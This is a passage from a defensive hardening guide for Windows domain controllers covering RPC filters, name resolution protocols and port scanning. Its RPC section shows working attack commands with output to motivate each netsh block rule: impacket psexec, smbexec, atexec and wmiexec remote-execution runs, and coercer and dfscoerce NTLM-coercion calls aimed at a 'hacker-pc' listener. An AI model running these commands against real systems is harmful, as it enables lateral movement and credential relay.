- [Setting Up a Fixed Port for WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/setting-up-a-fixed-port-for-wmi)
- [RPC Load Balancing Best Practices](https://learn.microsoft.com/en-us/windows/win32/rpc/load-balancing-best-practices)

### RPC Filters

#### RPC over Named Pipes

Most RPC protocols implemented in Windows support two transport types:

- [RPC over TCP/IP (ncacn_ip_tcp)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/95fbfb56-d67a-47df-900c-e263d6031f22)
- [RPC over SMB Named Pipes (ncacn_np)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/7063c7bd-b48b-42e7-9154-3c2ec4113c0d)

Each Windows service that uses the TCP/IP transport is assigned its own RPC dynamic port and in some cases,
[static ports can be configured](#static-rpc-ports). Windows Firewall rules can then target services
by their identifiers or program paths and either allow or block service-specific inbound traffic.
It is thus possible to only allow remote management traffic from specific IP addresses.

The named pipes transport is more problematic, as standard Windows Firewall rules
can only allow or block all SMB traffic (`445/TCP`)
and Active Directory functionality heavily depends on the `SYSVOL` and `NETLOGON` file shares
being available over the SMB protocol to all Windows clients.
The SMB protocol is therefore very popular among malicious actors
and many off-the-shelf hacktools exclusively use the named pipes to perform remote code execution
and other undesirable operations.

Fortunately, it is possible to use the RPC Filters, a lesser-known feature of the Windows Firewall,
to partially limit undesirable RPC traffic. There is no graphical user interface for RPC Filters,
but a subset of their capabilities can be configured using the `netsh.exe` tool.
Each RPC protocol must be dealt with individually.

#### \[MS-SCMR\]: Service Control Manager Remote Protocol

The [\[MS-SCMR\]: Service Control Manager Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f)
with UUID [367ABB81-9844-35F1-AD32-98F038001003](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333)
is used by the built-in `services.msc` console and the `sc.exe` utility to remotely manage Windows services:

```shell
sc.exe \\dc01 query wuauserv
```

```txt
SERVICE_NAME: wuauserv
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

While the built-in Windows tools use the TCP/IP transport, hacktools commonly utilize
the [\\PIPE\\svcctl](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333)
SMB named pipe to execute code on remote systems:

```shell
impacket-psexec 'contoso/Admin:Pa$$w0rd@dc01'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc01.....
[*] Found writable share ADMIN$
[*] Uploading file vQfMdUbQ.exe
[*] Opening SVCManager on dc01.....
[*] Creating service hOdT on dc01.....
[*] Starting service hOdT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Multiple variants of this attack exist:

```shell
impacket-smbexec 'contoso/Admin:Pa$$w0rd@dc01'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

The following sequence of `netsh.exe` commands can be used to block MS-SCMR connections over named pipes,
while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=d0c7640c-9355-4e52-8335-c12835559c10
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=367ABB81-9844-35F1-AD32-98F038001003
add filter
```

#### \[MS-TSCH\]: Task Scheduler Service Remoting Protocol

The [\[MS-TSCH\]: Task Scheduler Service Remoting Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)
with UUID [86D35949-83C9-4044-B424-DB363231FD0C](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40)
is used by the built-in `taskschd.msc` console and the `schtasks.exe` utility to remotely manage scheduled tasks:

```shell
schtasks.exe /query /s dc01 /tn "\Microsoft\Windows\BitLocker\BitLocker Encrypt All Drives"
```

```txt
Folder: \Microsoft\Windows\BitLocker
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
BitLocker Encrypt All Drives             N/A                    Ready
```

While the built-in Windows tools use the TCP/IP transport,
hacktools commonly utilize the [\\PIPE\\atsvc](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40)
SMB named pipe to execute code on remote systems:

```shell
impacket-atexec 'contoso/Admin:Pa$$w0rd@dc01' hostname
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \ZNSsJjLS
[*] Running task \ZNSsJjLS
[*] Deleting task \ZNSsJjLS
[*] Attempting to read ADMIN$\Temp\ZNSsJjLS.tmp
DC01
```

Two additional interfaces with UUIDs [1FF70682-0A51-30E8-076D-740BE8CEE98B](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40)
and [378E52B0-C0A9-11CF-822D-00AA0051E40F](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40)
are exposed through the `\PIPE\atsvc` pipe and are only used by the legacy `at.exe` command line tool.

The following sequence of `netsh.exe` commands will block MS-TSCH connections over named pipes,
while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter

add rule layer=um actiontype=block filterkey=a43b9dd2-0866-4476-89dc-2e9b200762af
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=86D35949-83C9-4044-B424-DB363231FD0C
add filter

add rule layer=um actiontype=block filterkey=13518c11-e3d8-4f62-9461-eda11beb540a
add condition field=if_uuid matchtype=equal data=1FF70682-0A51-30E8-076D-740BE8CEE98B
add filter

add rule layer=um actiontype=block filterkey=1c079a18-e91f-4698-9868-68a121490636
add condition field=if_uuid matchtype=equal data=378E52B0-C0A9-11CF-822D-00AA0051E40F
add filter
```

#### \[MS-EVEN6\]: EventLog Remoting Protocol Version 6.0 {#ms-even6-eventlog-remoting-protocol-version-60}

The [\[MS-EVEN6\]: EventLog Remoting Protocol Version 6.0](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even6/18000371-ae6d-45f7-95f3-249cbe2be39b)
with UUID [F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even6/3479d837-b759-4b13-9d5e-4c93eede7cb6)
is used by the built-in `eventvwr.msc` console and the `wevtutil.exe` command line tool
to remotely query and manage Windows event logs:

```shell
wevtutil.exe /r:dc01 qe Security /c:1 /f:text
```

Malicious actors might use this protocol to clear security event logs remotely and thus cover their tracks.
The following sequence of `netsh.exe` commands will block MS-EVEN6 connections over named pipes,
while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=dedffabf-db89-4177-be77-1954aa2c0b95
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=f6beaff7-1e19-4fbb-9f8f-b89e2018337c
add filter
```

#### \[MS-EVEN\]: EventLog Remoting Protocol

The [\[MS-EVEN\]: EventLog Remoting Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)
with UUID [82273FDC-E32A-18C3-3F78-827929DC23EA](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/648145da-250e-4c1f-b8e4-8044c1bd4a20)
is an older version of the [MS-EVEN6](#ms-even6-eventlog-remoting-protocol-version-60) protocol described above.

The protocol is only exposed over the `\PIPE\eventlog` named pipe and might be abused
by malicious actors to initiate NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip 'dc01.contoso.com' --listener-ip hacker-pc --always-continue --filter-protocol-name MS-EVEN --filter-transport msrpc
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.213.0.100\BvcavuA5\aa')
[+] All done! Bye Bye!
```

The following sequence of `netsh.exe` commands will block the legacy MS-EVEN protocol traffic entirely:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=f7f68868-5f50-4cda-a18c-6a7a549652e7
add condition field=if_uuid matchtype=equal data=82273FDC-E32A-18C3-3F78-827929DC23EA
add filter
```

#### \[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol

The [\[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)
with UUID [4FC742E0-4A10-11CF-8273-00AA004AE673](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/af348786-37e1-47a7-90f9-25727c350c38)
is exposed over the `\PIPE\netdfs` named pipe and is often abused to initiate NTLM relay attacks:

```shell
python3 dfscoerce.py -u john -p 'Pa$$w0rd' -d contoso.com hacker-pc dc01
```

```txt
[-] Connecting to ncacn_np:dc01[\PIPE\netdfs]
[+] Successfully bound!
[-] Sending NetrDfsRemoveStdRoot!
NetrDfsRemoveStdRoot
ServerName:                      '10.213.0.100\x00'
RootShare:                       'test\x00'
ApiFlags:                        1

DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

The following sequence of `netsh.exe` commands will restrict MS-DFSNM connections to the members of the *Domain Admins* group:

```txt
rpc filter

add rule layer=um actiontype=permit filterkey=43873c58-e130-4ffb-8858-d259a673a917
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add condition field=remote_user_token matchtype=equal data=D:(A;;CC;;;DA)
add filter

add rule layer=um actiontype=block filterkey=0a239867-73db-45e6-b287-d006fe3c8b18
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add filter
```

#### \[MS-RPRN\]: Print System Remote Protocol

The [\[MS-RPRN\]: Print System Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)
with UUID [12345678-1234-ABCD-EF00-0123456789AB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/848b8334-134a-4d02-aea4-03b673d6c515)
is exposed over the `\PIPE\spoolss` named pipe and is a popular target for initiating NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip dc01.contoso.com --listener-ip hacker-pc --filter-protocol MS-RPRN --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,54795,51120,51124,38901,38902,56954,5722
[+] DCERPC port '51120' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] SMB named pipe '\PIPE\spoolss' is accessible!
   [+] Successful bind to interface (12345678-1234-abcd-ef00-0123456789ab, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] All done! Bye Bye!
```

The primary solution to this vulnerability, commonly known as PrinterBug,
is to disable the `Print Spooler` service on domain controllers.
As an alternative, the following sequence of `netsh.exe` commands will block MS-RPRN connections over named pipes:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=7966512a-f2f4-4cb1-812d-d967ab83d28a
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=12345678-1234-ABCD-EF00-0123456789AB
add filter
```

> [!NOTE]
> In a future version of Windows Server, the MS-RPRN protocol will exclusively
be [moved to a standalone TCP port](https://learn.microsoft.com/en-us/troubleshoot/windows-client/printing/windows-11-rpc-connection-updates-for-print)
by default.

#### \[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol

The [\[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)
is [available over multiple named pipes](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/1baaad2f-7a84-4238-b113-f32827a39cd2):

| Named Pipe     | RPC Interface UUID                   |
|----------------|--------------------------------------|
| \\PIPE\\efsrpc | df1941c5-fe89-4e79-bf10-463657acf44d |
| \\PIPE\\lsarpc | c681d488-d850-11d0-8c52-00c04fd90f7e |

This protocol is yet another popular target for initiating NTLM relay attacks:

```shell
coercer coerce --target-ip dc01 --listener-ip hacker-pc --username john --password 'Pa$$w0rd' --domain contoso.com --filter-transport msrpc --filter-pipe lsarpc --filter-method EfsRpcAddUsersToFileEx --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\5jPfJ0a3\file.txt\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\OMEqbIHD\\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\sRuG4G51\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100@80/ZVi\share\file.txt\x00')
[+] All done! Bye Bye!
```

In environments where EFS is not used, the MS-EFSR protocol could be disabled entirely.
A more compatible approach would be to enforce Kerberos authentication
and packet encryption on MS-EFSR connections. Although this solution is not bulletproof,
it works against most hacktools. Here is the corresponding sequence of `netsh.exe` commands:

```txt
rpc filter

add rule layer=um actiontype=permit filterkey=d71d00db-3eef-4935-bedf-20cf628abd9e
add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e
add condition field=auth_type matchtype=equal data=16
add condition field=auth_level matchtype=equal data=6
add filter

add rule layer=um actiontype=block filterkey=3a4cce27-a7fa-4248-b8b8-ef6439a2c0ff
add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e
add filter

add rule layer=um actiontype=permit filterkey=c5cf8020-c83c-4803-9241-8c7f3b10171f
add condition field=if_uuid matchtype=equal data=df1941c5-fe89-4e79-bf10-463657acf44d
add condition field=auth_type matchtype=equal data=16
add condition field=auth_level matchtype=equal data=6
add filter

add rule layer=um actiontype=block filterkey=9ad23a91-085d-4f99-ae15-85e0ad801278
add condition field=if_uuid matchtype=equal data=df1941c5-fe89-4e79-bf10-463657acf44d
add filter
```

#### \[MS-FSRVP\]: File Server Remote VSS Protocol

The [\[MS-FSRVP\]: File Server Remote VSS Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)
with UUID [a8e0653c-2744-4389-a61d-7373df8b2292](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/92d20000-dcbc-4ec1-bf10-9a38c828436d)
is exposed by the **File Server VSS Agent Service** optional feature over the [\\PIPE\\FssagentRpc](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/c504c88e-3248-418f-8d83-22ec8f008816)
named pipe.

In the past, this protocol could have been abused by the [ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce) attack,
but Microsoft fixed the corresponding vulnerability in [KB5015527](https://support.microsoft.com/en-us/topic/kb5015527-shadow-copy-operations-using-vss-on-remote-smb-shares-denied-access-after-installing-windows-update-dated-june-14-2022-6d460245-08b6-40f4-9ded-dd030b27850b).
No further action is therefore needed.

#### \[MS-DNSP\]: Domain Name Service (DNS) Server Management Protocol

The [\[MS-DNSP\]: Domain Name Service (DNS) Server Management Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)
with UUID [50ABC2A4-574D-40B3-9D66-EE4FD5FBA076](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5093503c-687e-4376-9127-50504908fb91)
is used by the built-in `dnsmgmt.msc` console and the `dnscmd.exe` utility to remotely manage DNS servers:

```shell
dnscmd.exe dc01 /EnumZones /Primary /Forward
```

```txt
Enumerated zone list:
        Zone count = 3

 Zone name                      Type       Storage         Properties
 _msdcs.contoso.com             Primary    AD-Forest       Secure
 contoso.com                    Primary    AD-Domain
 TrustAnchors                   Primary    AD-Forest

Command completed successfully.
```

The [ServerLevelPluginDll](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/9500a7e8-165d-4b13-be86-0ddc43100eef)
operation of the `MS-DNSP` protocol can be misused to remotely execute code on domain controllers,
which makes this protocol interesting from the attacker's perspective.
Although the built-in Windows tools only use the TCP/IP transport,
the protocol is exposed over the `\PIPE\DNSSERVER` named pipe as well.
The latter transport layer could be blocked by executing the following sequence of `netsh.exe` commands:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=50754fe4-aa2d-42ff-8196-e90ea8fd2527
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=50abc2a4-574d-40b3-9d66-ee4fd5fba076
add filter
```

#### \[MS-WMI\]: Windows Management Instrumentation Remote Protocol

The [\[MS-WMI\]: Windows Management Instrumentation Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814)
protocol is often used by administrators for remote system administration and monitoring:

```powershell
(Get-WmiObject -ClassName Win32_OperatingSystem -ComputerName dc01 -Property Caption).Caption
```

```txt
Microsoft Windows Server 2022 Standard
```

The protocol is also popular among malicious actors to perform remote command execution:

```shell
impacket-wmiexec 'contoso/Admin:Pa$$w0rd@dc01' hostname
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
DC01
```

Although the output of the tool might suggest that WMI traffic can be tunneled through SMB named pipes as well,
it is fortunately not true and the WMI protocol can effectively be blocked using Windows Firewall.
To further mitigate the threat of remote malicious command execution over WMI,
it is recommended to turn on the following [Microsoft Defender Attack Surface Reduction (ASR)](https://learn.microsoft.com/en-us/defender-endpoint/overview-attack-surface-reduction)
rules:

- [Block process creations originating from PSExec and WMI commands](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference#block-process-creations-originating-from-psexec-and-wmi-commands)
- [Block persistence through WMI event subscription](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference#block-persistence-through-wmi-event-subscription)

> [!IMPORTANT]
> System Center Configuration Manager (SCCM) client and Distribution Point (DP)
> will not work properly if these ASR rules are enabled.

#### Malicious C2 Protocols and Backdoors

Some malicious tools can use the RPC protocol as a Command and Control (C2) channel.
One such example is the infamous `Mimikatz` tool,
which can be remotely controlled through the MimiCom interface with UUID [17FC11E9-C258-4B8D-8D07-2F4125156244](https://github.com/gentilkiwi/mimikatz/blob/master/mimicom.idl).
One could of course block this interface using the following RPC filter:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=644291ca-9530-4066-b654-e7b838ebdc06
add condition field=if_uuid matchtype=equal data=17FC11E9-C258-4B8D-8D07-2F4125156244
add filter
```

Unfortunately, this approach would be futile, as serious adversaries would never use a well-known protocol identifier.

#### Further Protocol Considerations

The following protocols need to be investigated in the future, as they are open to all domain controller clients:

- [\[MS-TSTS\]: Terminal Services Terminal Server Runtime Interface Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/1eb45af1-94f1-4c42-9e13-dd0a018646fd)
- [\[MS-RSP\]: Remote Shutdown Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rsp/6dfeb978-7a02-4826-b537-a1760fbf8074)
- [\[MS-DCOM\]: Distributed Component Object Model (DCOM) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0),
  specifically the ShellWindows, ShellBrowserWindow, and MMC20 objects.
- [\[MS-RRP\]: Windows Remote Registry Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

#### Additional Reading on RPC

- [MSRPC-To-ATT&CK](https://github.com/jsecurity101/MSRPC-to-ATTACK)
- [A Definitive Guide to the Remote Procedure Call (RPC) Filter](https://www.akamai.com/blog/security/guide-rpc-filter#using)
- [server22_rpc_servers_scrape.csv](https://github.com/akamai/akamai-security-research/blob/main/rpc_toolkit/rpc_interface_lists/server22_rpc_servers_scrape.csv)

### IPSec Rules

IPSec (Internet Protocol Security) provides means to ensure the confidentiality,
integrity, and authenticity of data transmissions.
The deployment of IPSec in transport mode therefore used to be an integral part of enterprise security baselines.
However, this IPSec mode has turned out to be too complex to implement for the majority of organizations.
Moreover, native encryption layers have been added to protocols like SMB, RDP, and RPC,
making IPSec mostly redundant in Windows networks.

One of the few exceptions is the DNS protocol, where not even the DNSSEC extension
makes it immune to man-in-the-middle (MITM) attacks.
And while Windows contains rich configuration options for securing DNS traffic in corporate networks using IPSec,
the industry seems to have chosen DNS over HTTPS (DoH) to protect DNS traffic in public networks instead.
We can only hope for the DoH support in Windows Server and access points with captive portals to improve in the near future
so that DoH can seamlessly be enforced on corporate devices.

As a conclusion, most organizations should not even consider deploying IPSec in transport mode.
They should rather focus on properly configuring the security measures that are already available in application protocols,
but are not enabled by default.

### Name Resolution Protocols

While the Domain Name System (DNS) is the primary protocol used for name resolution in Windows,
the Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBNS)
protocols are used as fallback. Support for Multicast DNS (mDNS) has been added in Windows 10.
These 3 peer name resolution protocols are enabled by default and are often abused by malicious actors.
By sending spoofed responses, they are able to redirect network traffic to their devices
and perform MITM attacks against insecure network protocols like SMB or NTLM.
It is therefore strongly recommended to disable the LLMNR, NBNS, and mDNS protocols,
especially on sensitive systems like domain controllers.

Disabling the LLMNR protocol is straightforward, as there is a built-in Group Policy setting available,
located in Computer Configuration → Policies → Administrative Templates
→ Network → DNS Client → **Turn off multicast name resolution**.
This setting is catalogued in the [Windows security baseline](https://learn.microsoft.com/en-us/azure/governance/policy/samples/guest-configuration-baseline-windows)
under ID *AZ-WIN-00145*. Contrary to its name, this setting has no effect on the mDNS protocol.

If the mDNS protocol is to be disabled as well, this [undocumented registry setting](https://techcommunity.microsoft.com/t5/networking-blog/mdns-in-the-enterprise/ba-p/3275777)
must be used:

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\DNSCache\\Parameters  
> Registry value: EnableMDNS  
> Value type: REG_DWORD  
> Value data: 0

To simplify the deployment of this setting,
it has been added to the [DomainControllerFirewall.admx](#administrative-templates) custom template.

The NBNS protocol is more complicated to deal with.
Historically, it could only be disabled on a per-adapter basis.
Startup scripts performing WMI calls are therefore often used by enterprises.
Below is an example of such a script:

```powershell
Get-WmiObject -Class Win32_NetworkAdapterConfiguration `
              -Filter 'TcpipNetbiosOptions IS NOT NULL' |
    Invoke-WmiMethod -Name SetTcpipNetbios -ArgumentList 2
```

The [SecGuide.admx](#administrative-templates) template,
which is part of the [Security Compliance Toolkit (SCT)](https://learn.microsoft.com/en-us/windows/security/operating-system-security/device-management/windows-security-configuration-framework/security-compliance-toolkit-10),
contains a similar setting called [NetBT NodeType configuration](https://www.betaarchive.com/wiki/index.php/Microsoft_KB_Archive/160177)
and its recommended value is **P-Node**. Below is the corresponding registry setting:

> HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\Netbt\\Parameters  
> Registry value: NodeType  
> Value type: REG_DWORD  
> Value data: 2

Since Windows 11, there is yet another NBNS-related Group Policy setting available,
but it does not seem to actually work.
It is located under Computer Configuration → Policies → Administrative Templates
→ Network → DNS Client → **Configure NetBIOS settings**. This is the corresponding registry setting:

> HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows NT\\DNSClient  
> Registry value: EnableNetbios  
> Value type: REG_DWORD  
> Value data: 0

### Port Scanning

One way of validating a domain controller host-based firewall configuration is performing a full port scan from a [client IP address](#identifying-management-traffic).
While network administrators might prefer using Microsoft's [PortQry](https://www.microsoft.com/en-us/download/details.aspx?id=17148),
penetration testers would most probably use the [Nmap](https://nmap.org/) tool to discover remotely available protocols:

```shell
nmap -p 1-65535 adatum-dc.adatum.com
```

```txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 21:17 CET
Nmap scan report for adatum-dc.adatum.com (10.213.0.8)
Host is up (0.0027s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
38901/tcp open  unknown
38902/tcp open  unknown
49664/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49672/tcp open  unknown
49679/tcp open  unknown
MAC Address: 00:17:FB:00:00:05 (FA)

Nmap done: 1 IP address (1 host up) scanned in 106.77 seconds
```

This sample output mostly contains well-known TCP ports like DNS (`53/TCP`), Kerberos (`88/TCP` and `464/TCP`), LDAP (`389/TCP` and `3268/TCP`),
LDAPS (`636/TCP` and `3269/TCP`), SMB (`445/TCP`), and RPC Endpoint Mapper (`135/TCP`),
which [must be reachable by Windows clients](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/config-firewall-for-ad-domains-and-trusts#windows-server-2008-and-later-versions).
Ports `38901/TCP` and `38902/TCP` are organization-specific [static RPC ports](#static-rpc-ports) used by Active Directory.
All protocols that directly allow remote command execution, including RDP (`3389/TCP` and `3389/UDP`), WinRM (`5985/TCP` and `5986/TCP`), and WMI (dynamic RPC port or `24158/TCP`), are properly blocked.

Port `593/TCP` (RPC Endpoint Mapper over HTTP) is unnecessarily exposed by the built-in [Active Directory Domain Controller (RPC-EPMAP)](#active-directory-domain-controller-rpc-epmap) rule,
which is primarily used to open the core `135/TCP` port. Although we prefer not to modify this built-in rule, we typically block port `593/TCP` on firewall appliances, without any noticeable consequences.

There are 5 additional dynamic RPC ports present. An EPMAP query would have revealed more details about these ports:

| TCP Port | Transport      | RPC Protocol                                                            |
|---------:|----------------|-------------------------------------------------------------------------|
|    49664 | `ncacn_ip_tcp` | [\[MS-SAMR\]: Security Account Manager (SAM) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) |
|    49667 | `ncacn_ip_tcp` | [\[MS-LSAD\]: Local Security Authority (Domain Policy) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) |
|    49668 | `ncacn_http`   | [\[MS-LSAD\]: Local Security Authority (Domain Policy) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) |
|    49672 | `ncacn_ip_tcp` | [Key Isolation Service](https://learn.microsoft.com/en-us/windows/win32/seccng/key-storage-and-retrieval) |
|    49679 | `ncacn_ip_tcp` | [\[MS-RAA\]: Remote Authorization API Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-raa/98ab2e01-da37-4e76-bea5-8d4d83e66e1a) |

These ports are allowed by the built-in [Active Directory Domain Controller (RPC)](#active-directory-domain-controller-rpc) rule.
The respective protocols are exposed through the `ncacn_np` RPC transport as well.
As a matter of fact, Windows client components seem to be using the `\PIPE\lsass` named pipe exclusively
when communicating over these RPC protocols.
Consequently, the RPC dynamic port range (`49152/TCP` to `65535/TCP`) on domain controllers
does not need to be accessible by member computers for AD to work properly.
We therefore typically block this port range on firewall appliances.

A UDP port scan should yield far less interesting results:

```shell
nmap -sU -p 1-65535 adatum-dc.adatum.com
```

